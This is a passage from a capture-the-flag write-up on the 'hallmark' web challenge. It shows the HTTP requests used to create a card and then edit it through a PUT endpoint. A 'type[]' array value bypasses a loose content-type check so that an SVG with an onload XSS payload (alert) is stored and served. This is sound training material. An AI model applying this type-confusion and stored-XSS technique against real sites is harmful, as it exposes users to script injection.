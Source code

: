 ```javascript
    console.log(`Server listening on port ${port}.`);
});
```

There were three actions for the `card` endpoint:

* GET: required the get parameter `id` and would display the card if the `id` existed.
* POST: generated a card, the action used by the site when generating a card
* PUT: this method was never used on the site directly but could be used manually to edit a card

We generated an SVG card using the application user interface (this used the `/card` POST method).

```text
POST /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

svg=heart&content=aaa
```

The response contained our card ID.

```text
HTTP/1.1 302 Found
Server: nginx/1.23.3
Date: Thu, 26 Apr 2023 19:29:04 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 67
Connection: keep-alive
X-Powered-By: Express
Location: /card?id=eb184d2d-6ae9-416d-adb4-6f89afca7e74
Vary: Accept

Found. Redirecting to /card?id=eb184d2d-6ae9-416d-adb4-6f89afca7e74
```

We modified the card using the PUT method. In order to keep the `Content-Type` as `image/svg+xml` we
needed to take advantage of the loose comparison `cards[id].type = type == "image/svg+xml" ? type : "text/plain";`
using `type[]=image/svg%2bxml`. We also included an SVG file containing a XSS payload (a simple
`alert('XSS')` for now).

```text
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Type: application/x-www-form-urlencoded
Content-Length: 1601

svg=heart&type[]=image/svg%2bxml&content=<svg+xmlns%3d"http%3a//www.w3.org/2000/svg"+width%3d"400"+height%3d"400"+viewBox%3d"0+0+400+400"+onload%3d"alert('XSS')"><path+fill%3d"%23465283"+d%3d"M32.805+143.09h58.993c17.316.145+29.863+5.11+37.64+14.894+7.778+9.784+10.346+23.146+7.705+40.085-1.027+7.74-3.301+15.333-6.824+22.78-3.375+7.448-8.071+14.165-14.087+20.153-7.338+7.593-15.189+12.412-23.554+14.456-8.364+2.045-17.022+3.067-25.974+3.067H40.29l-8.365+41.618H1.328l31.477-157.054m25.755+24.97l-13.207+65.714c.88.146+1.76.219+2.641.219h3.082c14.087.146+25.827-1.241+35.22-4.162+9.39-3.066+15.7-13.726+18.93-31.98+2.64-15.333-.001-24.168-7.926-26.504-7.777-2.337-17.536-3.431-29.275-3.286a61.27+61.27+0+0+1-5.063.219H58.34l.22-.22m113.445-66.795h30.377l-8.585+41.838h27.295c14.969.291+26.121+3.358+33.459+9.2+7.484+5.84+9.686+16.939+6.603+33.294l-14.748+72.941h-30.817l14.088-69.655c1.467-7.302+1.027-12.486-1.32-15.553-2.349-3.066-7.412-4.599-15.189-4.599l-24.434-.22-18.049+90.027h-30.377l31.697-157.272m121.773+41.824h58.992c17.317.146+29.864+5.112+37.641+14.895+7.777+9.784+10.346+23.146+7.704+40.085-1.027+7.74-3.301+15.333-6.823+22.78-3.376+7.448-8.072+14.165-14.088+20.153-7.338+7.593-15.188+12.412-23.554+14.456-8.363+2.045-17.022+3.067-25.973+3.067h-26.415l-8.364+41.617H262.3l31.478-157.053m25.754+24.97l-13.208+65.714a16.17+16.17+0+0+0+2.643.219h3.08c14.09.146+25.829-1.241+35.22-4.162+9.392-3.066+15.703-13.726+18.931-31.98+2.641-15.333+0-24.168-7.924-26.504-7.778-2.337-17.537-3.431-29.277-3.286a61.31+61.31+0+0+1-5.061.219h-4.624l.22-.22"/></svg>&id=498b8244-43c1-4ae1-a520-89b33fd164fe
```